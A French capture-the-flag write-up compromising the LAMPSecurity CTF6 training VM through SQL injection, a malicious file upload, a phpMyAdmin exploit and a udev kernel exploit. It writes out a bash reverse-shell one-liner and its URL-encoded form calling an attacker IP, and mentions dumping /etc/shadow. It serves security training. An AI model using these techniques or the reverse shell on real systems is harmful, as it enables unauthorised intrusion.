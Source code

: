 # LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6\
**Date de sortie :** 29 Juin 2009\
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un "root"\
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).`\
`These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Ma cible, si je l'accepte, sera désignée par `netdiscovery` :

![](../../../.gitbook/assets/01b81fb29800416a48b95b8bf4067734.png)

Je scanne les services de la bête, comme d'habitude avec `nmap` :

![](../../../.gitbook/assets/0d2df19ee103a6d59c16b63c2414b097.png)

Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP (port 80)

Tout en commençant la reconnaissance manuelle je lance un `nikto` dont voici les résultats :

![](../../../.gitbook/assets/5bb8c42e703fa254522f24bf8e9ef5f2.png)

Plusieurs URLs intéressants à ne pas oublier de visiter après la petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. Je remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées (PHP, MySQL, CenOS) et pour terminer des noms/prénoms du staff :

![](../../../.gitbook/assets/77b6af492db3c6a94a786f674f5a3463.png)

Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

![](../../../.gitbook/assets/f92bbcc2d2a54032c51cad3570a710b7.png)

Les différentes URLs sont intéressantes mais sans doute facultatives : j'y retrouve un script SQL qui permet de connaitre des informations sur la base de données (mais `sqlmap` en aura pas besoin :smile:), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :

![](../../../.gitbook/assets/906bd4b1971cd3b24146d53e51a32111.png)

### Serveur HTTP (port 443)

Il s'agit en fait du même si que celui présent sur le port 80, je suis déçu :disappointed: .

## Exploitation

### Injection SQL

Ici je ne m'embête pas : `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :

![](../../../.gitbook/assets/e03d1b4b831468edb37511112361e8de.png)

Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais je récupère à la place le mot de passe de mysql :

![](../../../.gitbook/assets/84c1dc7adcaefe8bfcfcdfa9d6102cb6.png)

### Injection de code

Je m'authentifie grâce au compte fraîchement récupéré, puis je m'aperçois qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :

{% hint style="warning" %}
`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`
{% endhint %}

Je continue avec l'option de joindre un fichier avec l’événement (ici qui contient un script PHP appelant la méthode `phpinfo()`) :

![](../../../.gitbook/assets/894c71013775256a8a0b8b4b83816b80.png)

Il suffit ensuite d'aller directement sur le lien de l'image et :

![](../../../.gitbook/assets/59c2f02d7b413d2a39e0aba08583bc3d.png)

Un peu de `msfvenom` ensuite ?

![](../../../.gitbook/assets/29b9c5598bb7347964faa9cde9fe5d6b.png)

Je suis dans la place avec mon shell limité :

![](../../../.gitbook/assets/7658ea9a3c18402e3e64b74f31c045b5.png)

### PhpMyAdmin (CVE-2009-1151)

Etant donné que j'avez déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :

![](../../../.gitbook/assets/5a42613d2a939a338918aa8fd4338fc7.png)

J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :\
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :

![](../../../.gitbook/assets/b72bd4009a7cff516bf1eb8721e34099.png)

Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :

![](../../../.gitbook/assets/9b54071bf95d65cd25cf302301f3610d.png)

## Élévation de privilèges

Je récupère la version du noyau afin de voir s'il est possible de l'exploiter :

![](../../../.gitbook/assets/ae79dd5de8576224129892d479c3555d.png)

Bonne nouvelle, une recherche sous Google m'indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. Je récupère donc l'exploit ([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)) puis l'exécute :

![](../../../.gitbook/assets/770fdc869b87171154e9bb6fa46196f1.png)

Je suis maintenant "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela me va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple (dans le cas où on serait passé à côté de la faille web) :

![](../../../.gitbook/assets/81f6ff36c457303f43ed188bb1ee9946.png)

Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".

